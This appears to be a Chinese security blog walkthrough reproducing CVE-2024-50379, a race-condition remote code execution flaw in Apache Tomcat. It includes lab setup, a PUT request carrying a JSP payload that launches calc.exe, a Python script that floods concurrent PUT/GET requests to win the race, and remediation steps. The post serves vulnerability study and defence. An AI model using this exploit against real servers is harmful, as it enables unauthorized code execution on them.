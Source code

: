 #  CVE-2024-50379：Apache Tomcat远程代码执行漏洞   
原创 Howell  Timeline Sec   2025-02-13 01:01  
  
> 关注我们❤️，添加星标🌟，一起学安全！作者：Howell本文字数：2941阅读时长：3 ~ 4mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Apache Tomcat是一个开源的Java Servlet容器，广泛用于运行Java Web应用程序。它实现了Java Servlet和JavaServer Pages (JSP) 技术，提供了一个运行环境来处理HTTP请求、生成动态网页，并支持WebSocket通信。  
  
Apache Tomcat以其稳定性、灵活性和易用性而受到开发者的青睐，是开发和部署Java Web应用的重要工具之一。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-50379**  
  
该漏洞的 CVSS 评分为 9.8，属于高危漏洞。漏洞的根本原因是 Tomcat 在验证文件路径时存在缺陷，特别是在不区分大小写的文件系统（如 Windows）上，当readonly初始化参数被设置为false时（有些版本不存在此参数），攻击者可以通过条件竞争上传恶意文件并执行远程代码。  
## 0x03 影响版本  
  
9.0.0.M1 <= Apache Tomcat < 9.0.98  
  
10.1.0-M1 <= Apache Tomcat < 10.1.34  
  
11.0.0-M1 <= Apache Tomcat < 11.0.2  
## 0x04 环境搭建  
  
1、最好安装配置一台win的虚拟机，将内核和内存都尽可能调小（==提升复现成功率==）  
  
2、在Java Downloads | Oracle 中国上下载JAVA 8（==一定要下载JAVA 8，这个版本的JAVA复现成功率最高==）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2JoekM4LkxYqXIqTOv4UBWWG9twIPBRAYicaMf2Y4E5aZibKjmlCKu7ew/640?wx_fmt=png&from=appmsg "")  
  
3、在Apache-Tomcat中下载漏洞范围版本  
  
配置环境变量  
  
JAVA_HOME  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2Kzt3UzrK1qRibMEaw5HDcCicRZregedRFLAsq33GfiaNcNjCa91ib64DfQ/640?wx_fmt=png&from=appmsg "")  
  
%JAVA_HOME%\bin  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2LgdmAfqia06PJcCkvzJJAe6yAQdibRyW1yycbAjdVhvLSn00JmBIWp3w/640?wx_fmt=png&from=appmsg "")  
  
CATALINA_BASE  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2tjpW0b6JE9oicCB4ZmCWicaIS0sZhWDdMWso4wduibWShiaicodKSNSia3PA/640?wx_fmt=png&from=appmsg "")  
  
查看conf/web.xml的配置，检查readonly的参数是否为flase，如果不是就进行如下配置，注意是default servlet(大部分版本是要自己手动去添加这个参数，在漏洞版本中如果存在，基本  
默认都是  
flase)  
```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>

```  
  
启动Tomcat（乱码问题不大，web.xml改一下GBK就没问题了，使用虚拟机的IPv4地址访问8080端口）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2ANen5rySBZ3G4DXxooZ6tQwBejdJnWZWzYUhyeLPbO9eF1JNfpYY0Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2hSQT9AzLI0czTLUr4OZ9bZBxyia4qeFGgzXwYsuXW7oCEreD7CTVPFw/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
开启浏览器代理，使用Yakit抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2R810NosL2yFEDnhicqbYthDo9kNT2T6YasjTashcNFbdtyNl8JBmSPg/640?wx_fmt=png&from=appmsg "")  
利用POC发包（==三个包同时发送！！！==）  
```
PUT /test.Jsp HTTP/1.1
Host: 192.168.235.131:8080

<% Runtime.getRuntime().exec("calc.exe");%>

```  
  
第一个包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2z0yQs8icpONo63XENv3u9HHfRkJMpzH0rakn752QiarUAfFvjCicxPSiag/640?wx_fmt=png&from=appmsg "")  
  
第二个包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2a5Nj63M44SYdczIG9LuuSZnI6fyvlCMDoo2JQNFP3KsNxuo3BAa51g/640?wx_fmt=png&from=appmsg "")  
  
第三个包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2KXyb4LiaM95NsmxPl5hAhFIfFLUr0Cykzjiaic1snNIFzTmSAVGwkO5Dw/640?wx_fmt=png&from=appmsg "")  
  
有时只用Yakit进行发包就能成功，有时不行，所以为了提升成功率，写一个python脚本和Yakit一起运行，对Tomcat进行发包  
```
import asyncio  
import aiohttp  
  
async def send_request(session, method, url, data=None):  
try:  
async with session.request(method, url, data=data) as response:  
print(f"Request to {url} completed with status {response.status}")  
return await response.text()  
except Exception as e:  
print(f"Request to {url} failed: {e}")  
return None  
  
async def main():  
async with aiohttp.ClientSession() as session:  
tasks = []  
for _ in range(10000): # 循环100次  
tasks.append(send_request(session, 'PUT', 'http://192.168.235.131:8080/evil.Jsp', data='<% Runtime.getRuntime().exec("calc.exe");%>'))  
tasks.append(send_request(session, 'PUT', 'http://192.168.235.131:8080/test.Jsp', data='<% Runtime.getRuntime().exec("calc.exe");%>'))  
tasks.append(send_request(session, 'GET', 'http://192.168.235.131:8080/evil.jsp'))  
  
# 并发执行所有任务  
responses = await asyncio.gather(*tasks)  
  
# 打印部分响应结果（可选）  
for i, response in enumerate(responses):  
if response:  
print(f"Response {i+1}: {response[:100]}...")  
  
# 运行主函数  
asyncio.run(main())

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2jE8C9GqNwNhZX6kskXWMx4vQt61ZmM6vAOFUWyuUb342D5Pg9smKLg/640?wx_fmt=png&from=appmsg "")  
  
返回状态码是201代表上传成功，可以去webapps/ROOT目录看到；再次重放请求的时候就是204的状态码了，说明文件已经存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m27ic9GA2dRoZcaNmg2Wr7FuPlu0wzetGHQrrAZG4EW4CVWlAzibzLPe9Q/640?wx_fmt=png&from=appmsg "")  
  
成功！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m26X2j65fZ7B12gXYVQHWeU5IyNyPYBlecuvyNto4tXEZo2qX9hfPO6g/640?wx_fmt=jpeg&from=appmsg "")  
## 0x06 修复方式  
  
**配置调整：**  
  
- 在不影响业务的前提下将conf/web.xml文件中的readonly参数设置为true或直接注释该参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiapBUJndN7wXBnbRNWSF0m2eRbdAxaZ8D6Aad1aDDibe90WVGibh3XHu7gB5FPJ4DBVOxDVXQXohZDA/640?wx_fmt=png&from=appmsg "")  
  
- 禁用 PUT 方法并重启 Tomcat 服务以启用新的配置  
  
**升级版本：**升级Tomcat版本为非漏洞版本范围  
## 参考链接  
  
https://xz.aliyun.com/t/16900  
  
https://mp.weixin.qq.com/s/d7dneaUgF2TD2KGdT1qiQw  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题  
  
回复  
【手册】获取原创技术PDF手册  
  
回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【培训】  
获取TimelineSec创办的实战课程  
  
  
视频号：搜索TimelineSec，[官方微博]()  
  
  
团队官网：  
http://www.timelinesec.com  
  
B站：  
https://space.bilibili.com/524591903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  

